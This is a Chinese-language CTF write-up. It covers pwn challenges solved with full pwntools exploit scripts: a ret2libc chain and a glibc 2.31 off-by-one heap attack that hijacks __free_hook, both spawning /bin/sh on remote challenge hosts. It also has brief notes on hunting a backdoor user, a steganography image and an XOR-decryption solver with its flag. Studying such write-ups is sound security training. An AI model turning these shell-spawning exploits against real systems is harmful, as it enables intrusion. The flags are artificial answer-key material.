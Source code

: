 # pwn

## clock_in

没啥好说的，简简单单，ret2libc3板子一把梭

```
from pwn import *
context(log_level='debug', arch='amd64', os='linux')
io = remote("123.56.237.38", 20488)
# io = process("./pwn")
elf = ELF("./pwn")
libc = ELF("./libc.so.6")
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi_ret=0x4011c5
pop_ret=0x40101a
puts_plt_addr=elf.plt['puts']
puts_got_addr=elf.got['puts']
main_addr=0x401090
payload1=b'\x00'*0x48+p64(pop_rdi_ret)+p64(puts_got_addr)+p64(puts_plt_addr)+p64(pop_ret)+p64(main_addr)
# gdb.attach(io)
io.sendline(payload1)
# pause()
puts_addr=u64(io.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
libc_base=puts_addr-libc.symbols["puts"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search(b"/bin/sh"))
payload2 = b'\x00'*0x48+p64(pop_ret)+p64(pop_rdi_ret)+p64(binsh)+p64(system) #这里使用栈对齐
# gdb.attach(io)
io.send(payload2)
io.interactive()
```

![屏幕截图 2024-11-24 195505](屏幕截图%202024-11-24%20195505.png)

## journey_story

非常好的题目，不过美中不足，网上有过类似的了。2.31 off by one，构造堆风水泄露libc地址，然后堆块重叠修改tcache执行hook改成system即可

```
from pwn import *
from pwncli import *
from ctypes import *
def s(a):
    p.send(a)
def sa(a, b):
    p.sendafter(a, b)
def sl(a):
    p.sendline(a)
def sla(a, b):
    p.sendlineafter(a, b)
def li(a):
    print(hex(a))
def r():
    p.recv()
def pr():
    print(p.recv())
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_32():
    return u32(p.recvuntil(b'\xf7')[-4:])
def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
# def get_sb():
#     return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
def debug():
    gdb.attach(p)

context(os='linux',arch='amd64',log_level='debug')
libc = ELF('libc-2.31.so')
elf = ELF('./pwn')
# p = process(["/home/xudongxin/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/ld-linux-x86-64.so.2", "/home/xudongxin/桌面/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/pwn"],env={"LD_PRELOAD":"./libc.so.6"})
p = remote("101.200.61.16", 32901)

def add(size, content):
    sla(b"option: ", b"1")
    sla(b"0xb0): ", str(hex(size)).encode())
    sla(b"racters): ", content)
def free(idx):
    sla(b"option: ", b"2")
    sla(b': ', str(idx))
def show(idx):
    sla(b"option: ", b"4")
    sla(b': ', str(idx))
def edit(idx,content):
    sla(b"option: ", b"3")
    sla(b': ', str(idx))
    sl(content)

for i in range(7):
    add(0xb0,'aaaa')
for i in range(7):
    free(i)
for i in range(6):
    add(0x28,'aaaa')#0-5
edit(0,'b'*0x28+'\xc1')
free(1)
add(0x28,'\x00')#1
show(2)
libc_base=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-96-0x10-libc.sym['__malloc_hook']
print("libc_base====>"+hex(libc_base))
free_hook=libc_base+libc.sym['__free_hook']
sl(b"10")
for i in range(3):
    add(0x28, 'cccc')  # 6-8 <==>2-4
free(2)
free(3)
show(7)
p.recvuntil(b"Story 7 (size 0x28): ")
heap_base = u64(p.recv(8)) & 0xfffffffff000
log.success("heap_base====>" + hex(heap_base))

# hijack __free_hook
edit(7, p64(free_hook) + b'\x0a')


# magic = libc_base + 0x1518B0
add(0x28, '/bin/sh\x00')  # 2
add(0x28, p64(libc_base+libc.sym["system"]))  # 3
free(2)

inter()
```

![屏幕截图 2024-11-24 195643](屏幕截图%202024-11-24%20195643.png)

## Classics

稍微懂点常识应该就会吧，把加密过程全部换成解密即可

![屏幕截图 2024-11-24 154850](屏幕截图%202024-11-24%20154850.png)

## 删除后门用户2

后门排查，先用提权脚本扫了一遍，发现了个userdel是suid权限，然后查看一下/etc/passwd，发现backdoor，尝试删除，诶，发现删了过了一会儿又有了，写了个脚本后台一直删，发现只会过check1，应该是定时任务或者后台脚本之类的，定时任务没有权限看和改，ps -a发现个b，嗯，有点可疑，管他呢，kill了试试，欸嘿，过了，应该就是这两个会创建backdoor用户

![屏幕截图 2024-11-24 200424](屏幕截图%202024-11-24%20200424.png)

## whitepic

下载下来没后缀，hh，识别一下发现是gif，打开啥也没有，盲猜隐写，啥也不会，扔stegslove里面看看吧，经过我精心的瞎点出来了

![屏幕截图 2024-11-24 195238](屏幕截图%202024-11-24%20195238.png)

## EnterGame

```
cipher = [0x5E, 0x13, 0xAA, 0xD3, 0x87, 0x75, 0x2B, 0x7A, 0x1B, 0x16,
          0x04, 0xA3, 0x49, 0x7E, 0x1D, 0xD2, 0x6B, 0x5D, 0x58, 0x40,
          0x5E, 0x44, 0x63, 0x59, 0x48, 0x51, 0x0D, 0x54, 0x5E, 0x58,
          0x55, 0x58, 0xAD, 0x82, 0xAF, 0xDC, 0xE7, 0xAB, 0x58, 0x5D,
          0xCE, 0xC1]
key = [0x38, 0x7F, 0xCB, 0xB4, 0xFC, 0x46, 0x13, 0x4F, 0x22, 0x27,
       0x31, 0xC2, 0x2D, 0x53, 0x25, 0xB4, 0x58, 0x6F, 0x75, 0x74,
       0x67, 0x20, 0x53, 0x74, 0x71, 0x65, 0x6E, 0x67, 0x73, 0x68,
       0x65, 0x6E, 0x9A, 0xE4, 0x9E, 0xB8, 0x86, 0xCF, 0x69, 0x3F,
       0xAA, 0xBC]
for i in range(len(cipher)):
    print(chr(cipher[i]^key[i]),end = '')
# flag{385915ad-8f32-49d0-94c3-0067f1dad1bd}
```

![6e0c7cbcf9cbe3a745a4c459d501d7b6](6e0c7cbcf9cbe3a745a4c459d501d7b6.png)

![55b35ed10d0928869fee02b87bca5d2b](55b35ed10d0928869fee02b87bca5d2b.png)

